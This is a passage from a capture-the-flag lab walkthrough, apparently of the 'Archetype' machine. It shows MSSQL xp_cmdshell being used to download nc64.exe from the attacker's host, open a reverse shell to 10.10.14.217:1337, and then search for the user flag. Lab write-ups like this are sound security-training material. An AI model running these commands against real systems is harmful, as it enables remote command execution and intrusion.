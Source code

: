 - we can execute powershell commands with `XEC master..xp_cmdshell 'powershell -c pwd'`, for example
- so let's download `nc64.exe` first to our attack vm (e.g. https://github.com/int0x33/nc.exe/blob/master/nc64.exe), and then to the target...

  ```
  SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC master..xp_cmdshell 'powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.217:8080/nc64.exe -outfile nc64.exe'
  output
  ----------
  NULL

  SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC master..xp_cmdshell 'powershell -c cd C:\Users\sql_svc\Downloads; ls'output
  -----------------------------------------------------------------------------------------------------------------------
      Directory: C:\Users\sql_svc\Downloads


  Mode                LastWriteTime         Length Name

  ----                -------------         ------ ----

  -a----       12/27/2023   7:58 AM          45272 nc64.exe
  ```

- finally, establish the reverse shell with `SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC master..xp_cmdshell 'powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.217 1337'`.

## user flag

- in the reverse shell, let's cd to the users home and search for any text files..

  ```
  C:\Users\sql_svc\Downloads>cd ..
  cd ..

  C:\Users\sql_svc>dir /s *.txt
  dir /s *.txt
   Volume in drive C has no label.
   Volume Serial Number is 9565-0B4F

   Directory of C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

  03/17/2020  01:36 AM                79 ConsoleHost_history.txt
                 1 File(s)             79 bytes

   Directory of C:\Users\sql_svc\Desktop

  02/25/2020  06:37 AM                32 user.txt
                 1 File(s)             32 bytes

       Total Files Listed:
                 2 File(s)            111 bytes
                 0 Dir(s)  10,717,392,896 bytes free
  ```
